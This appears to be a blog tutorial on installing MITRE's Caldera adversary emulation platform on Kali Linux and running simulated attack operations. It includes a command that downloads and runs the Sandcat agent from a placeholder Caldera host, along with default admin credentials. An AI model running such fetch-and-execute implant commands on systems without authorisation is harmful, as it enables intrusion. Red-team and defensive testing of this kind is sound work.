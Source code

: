 ```yaml
---
draft: false
title: "Caldera on Kali Linux Tools: A Comprehensive Guide"
linkTitle: Caldera
translationKey: caldera-on-kali-linux-tools-a-comprehensive-guide
weight: 560
description: We will explore Caldera in detail, including its features, installation process on Kali Linux, practical usage, and benefits for cybersecurity professionals.
date: 2025-02-12
url: caldera-on-kali-linux-tools-a-comprehensive-guide
tags:
  - kali tools
categories:
  - Kali linux
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
keywords: 
  - caldera
featured_image: /images/kalilinux2.webp
---
```

## Introduction

Kali Linux is one of the most popular penetration testing and cybersecurity-focused operating systems available today. It comes preloaded with a variety of tools designed for security professionals, ethical hackers, and researchers. Among these tools, **Caldera** stands out as an advanced adversary emulation platform developed by **MITRE**. Caldera allows cybersecurity professionals to simulate real-world cyberattacks in a controlled environment, helping organizations strengthen their defense mechanisms.

In this blog post, we will explore Caldera in detail, including its features, installation process on Kali Linux, practical usage, and benefits for cybersecurity professionals.

## What is Caldera?

Caldera is an **automated adversary emulation system** that enables cybersecurity professionals to test their defense mechanisms against simulated threats. It operates using **MITRE ATT&CK tactics, techniques, and procedures (TTPs)** to mimic real-world cyber threats, making it an invaluable tool for security assessments.

### Key Features of Caldera

1. **Adversary Emulation**: Caldera can simulate sophisticated attacks, allowing security teams to test their incident response strategies.
2. **Automated Red Teaming**: It provides automation capabilities for red teaming, reducing the manual effort required to simulate attacks.
3. **Extensibility**: The tool supports plugins and modules, making it customizable to different attack scenarios.
4. **Agent-based Operations**: It supports multiple agent types, such as the default `sandcat` agent, which enables adversary simulation.
5. **Intuitive Web Interface**: It features a web-based UI that allows easy management of attack operations.
6. **Built-in ATT&CK Mapping**: It is designed around MITRE ATT&CK, ensuring comprehensive threat simulation based on real-world tactics.
7. **Cross-Platform Compatibility**: It works on Windows, Linux, and macOS environments, making it a versatile cybersecurity tool.

## Installing Caldera on Kali Linux

While Kali Linux comes with numerous pre-installed penetration testing tools, **Caldera is not included by default**. However, installing it on Kali Linux is straightforward.

### Step 1: Update Your System

Before installing Caldera, update your system to ensure that you have the latest packages and dependencies:

```bash
sudo apt update && sudo apt upgrade -y
```

### Step 2: Install Required Dependencies

Ensure you have Python 3 and Git installed:

```bash
sudo apt install python3 git -y
```

### Step 3: Clone the Caldera Repository

Next, clone the official Caldera repository from GitHub:

```bash
git clone https://github.com/mitre/caldera.git --recursive
```

### Step 4: Navigate to the Caldera Directory

Move into the cloned directory:

```bash
cd caldera
```

### Step 5: Install Dependencies

Use pip to install the necessary dependencies:

```bash
pip install -r requirements.txt
```

### Step 6: Start Caldera

Run the following command to start the Caldera server:

```bash
python3 server.py --insecure
```

### Step 7: Access the Web Interface

Once the server is running, open a web browser and navigate to:

```
http://localhost:8888
```

Log in using the default credentials (username: `admin`, password: `admin`).

## Using Caldera for Adversary Simulation

After setting up Caldera, you can start using it for adversary simulation and penetration testing.

### Step 1: Deploying an Agent

Caldera relies on agents to execute attack techniques. The most commonly used agent is **Sandcat**, which can be deployed on the target system. To deploy an agent, navigate to **Agents > Add Agent** and generate an appropriate command for the target system.

For a Linux target, use:

```bash
curl -s http://<Caldera_IP>:8888/file/download; chmod +x sandcat; ./sandcat -server http://<Caldera_IP>:8888
```

### Step 2: Running an Operation

After deploying an agent, you can run an adversary operation:

1. Go to **Operations > Create Operation**.
2. Select an existing adversary profile (e.g., **default** or **APT** profiles).
3. Choose the deployed agent.
4. Start the operation to execute attack techniques.

### Step 3: Viewing Attack Results

Once an operation is complete, you can analyze results in the **Reports** section. The interface provides insights into executed techniques, system responses, and any potential security gaps.

## Benefits of Using Caldera on Kali Linux

1. **Realistic Cyber Threat Emulation**: Simulates real-world attack scenarios based on MITRE ATT&CK.
2. **Automation**: Reduces manual efforts required for security testing and vulnerability assessments.
3. **Enhanced Defense Mechanisms**: Helps organizations strengthen security by identifying weaknesses.
4. **Cost-Effective**: An open-source tool that provides enterprise-level functionalities for free.
5. **Continuous Learning**: Security teams can stay updated with the latest attack tactics and techniques.

## Conclusion

Caldera is a powerful adversary emulation tool that enhances penetration testing and red teaming activities. When integrated with Kali Linux, it provides cybersecurity professionals with a robust environment to assess, improve, and automate security defenses. Whether you are a penetration tester, security researcher, or a blue team member, Caldera is an essential tool that can significantly enhance your cybersecurity strategy.

By following the installation steps outlined in this guide, you can easily set up and start using Caldera on Kali Linux to simulate cyber threats effectively. Start exploring its capabilities today and take your cybersecurity skills to the next level!
